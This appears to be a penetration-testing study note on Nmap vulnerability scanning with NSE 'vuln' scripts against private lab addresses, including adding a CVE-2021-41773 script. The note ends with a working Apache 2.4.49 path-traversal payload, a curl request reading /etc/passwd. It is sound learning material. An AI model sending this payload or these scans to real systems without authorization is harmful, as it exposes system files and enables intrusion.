

---
tags:
  - enumeration
  - nmap
  - phase/enumeration
---

# NMAP

> [!tip] Quick Reference — Nmap Vulnerability Scanning
> | Goal | Command |
> |------|---------|
> | List vuln-category NSE scripts | `cat /usr/share/nmap/scripts/script.db \| grep "\"vuln\""` |
> | Run all vuln scripts | `sudo nmap -sV -p <port> --script "vuln" <IP>` |
> | Safe-only vuln scripts (skip intrusive/DoS) | `sudo nmap -sV -p <port> --script "vuln and safe" <IP>` |
> | Run one targeted CVE script | `sudo nmap -sV -p <port> --script "http-vuln-cve2021-41773" <IP>` |
> | Bump version-detection accuracy | `sudo nmap -sV --version-intensity 9 -p <port> <IP>` |
> | Save every output format | `sudo nmap -sV -p <port> --script vuln -oA vulnscan <IP>` |
> | Register a newly-added script | `sudo nmap --script-updatedb` |
> | Convert XML report to browsable HTML | `xsltproc vulnscan.xml -o vulnscan.html` |

Query `script.db` to list every NSE script in a given category along with its assigned categories. Each entry has a filename (the script's name in the NSE directory) and its category list.

```sh
cd /usr/share/nmap/scripts/
cat script.db  | grep "\"vuln\""
```


> [!info] `--script` argument forms
> The `--script` parameter chooses which NSE scripts run. Its argument can be:
> - A script category (e.g. `vuln`)
> - A Boolean expression combining categories or script names
> - A comma-separated list of categories
> - The full or wildcard name of an NSE script listed in `script.db`
> - An absolute path to a specific NSE script


Run all `vuln` category scripts against port 443. Watch the `vulners` output, which maps the detected service version to known CVEs and CVSS scores:

```sh
sudo nmap -sV -p 443 --script "vuln" 192.168.50.13
```

Example result — `443/tcp` reveals `Apache httpd 2.4.49`, and `vulners` flags `CVE-2021-41773` with an `*EXPLOIT*` PoC link.


> [!info] Reading the vulners output
> Most of the `vuln` scan output comes from the `vulners` script, which maps the detected service/version to CVEs, CVSS scores, and reference links (here, `CVE-2021-41773`). Entries marked `*EXPLOIT*` link to a public PoC. Note: `vulners` produces nothing without a successful service-version detection — always include `-sV`.


> [!tip] Reduce noise / avoid crashing services
> Some `vuln` scripts are intrusive and can crash fragile services or trip an IDS/IPS on a monitored network. Restrict to non-disruptive checks with a Boolean `--script` expression, and slow down with `--scan-delay` if the target is flaky:
> ```sh
> sudo nmap -sV -p 443 --script "vuln and safe" --scan-delay 1s 192.168.50.13
> ```


> [!tip] Save and parse large vuln scan output
> `--script vuln` against many ports can print a wall of text. Save every format at once with `-oA <basename>` (writes `.nmap`, `.xml`, `.gnmap`), then convert the XML into a readable HTML report:
> ```sh
> sudo nmap -sV -p- --script vuln -oA vulnscan 192.168.50.13
> xsltproc vulnscan.xml -o vulnscan.html
> ```


> [!info] Add a CVE-specific NSE script
> Search a CVE number plus `nse` (e.g. `CVE-2021-41773 nse`) to find a community script, often on GitHub. Copy it into Nmap's scripts directory using the standard naming convention, then register it with `--script-updatedb`:
> ```sh
> sudo cp /home/kali/Downloads/http-vuln-cve-2021-41773.nse /usr/share/nmap/scripts/http-vuln-cve2021-41773.nse
> sudo nmap --script-updatedb
> ```
> A "Script Database updated successfully" message means the script is ready to use.


Run the targeted script and look for `State: VULNERABLE` plus the path-traversal URL under "Check results":

```sh
sudo nmap -sV -p 443 --script "http-vuln-cve2021-41773" 192.168.50.124
```

Key output:

```
| http-vuln-cve2021-41773:
|   State: VULNERABLE
|   Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49
|   Check results:
|_    Verify arbitrary file read: https://192.168.50.124:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

To Curl it I needed:

## --path-as-is


```sh
curl --path-as-is -v "http://192.168.128.13:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

## Visual Flow



> [!success] What success looks like
> The `vuln` scan prints a CVE with a `*EXPLOIT*` PoC line, and the targeted CVE script reports `State: VULNERABLE` plus a "Check results" line you can reproduce by hand (here, a path-traversal URL reading `/etc/passwd`).

> [!danger] Common errors
> - `vuln` scan returns nothing → the vulners script needs a successful version detection. Always include `-sV`; without a detected service+version it can't map CVEs.
> - Your downloaded CVE script isn't found → you forgot to register it. Save it under `/usr/share/nmap/scripts/` using the standard naming, then run `sudo nmap --script-updatedb`.
> - curl test fails to traverse → use `--path-as-is` so curl doesn't normalize the `%2e` sequences out of the URL.
> - `QUITTING! ... requires root privileges` / silently falls back to a slower scan → `-sV` and most `vuln` scripts need raw sockets; rerun with `sudo`.
> - `--script vuln` against `-p-` or a whole subnet hangs for hours → scope `-p` to the ports you already know are open, add `-T4 --min-rate 500`, and cap it with `--host-timeout 30m` so one unresponsive host doesn't stall the run.
> - Target stops responding mid-scan / connection resets → an intrusive vuln script may have crashed the service, or a firewall/IDS started dropping your packets. Retry with `--script "vuln and safe"` and `--scan-delay 1s`, and re-check the service is still up.
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> A **false positive** is a vuln the scanner reports that isn't actually exploitable. The `vuln` scripts guess from the version banner, so a flagged CVE might be back-patched. Confirm with a targeted CVE script (look for `State: VULNERABLE`) and a manual check before you try to exploit it.

---
%% graph-links %%
## Related
- [[Nessus]]
- [[Nmap Scripting Engine (NSE)]]
- [[FingerPrinting with Nmap]]
- [[TCPUDP Port Scanning Theory]]

> [!info] Navigation
> Section: [[Vulnerability Scanning/_index|Vulnerability Scanning]] · Home: [[🏠 Home]]

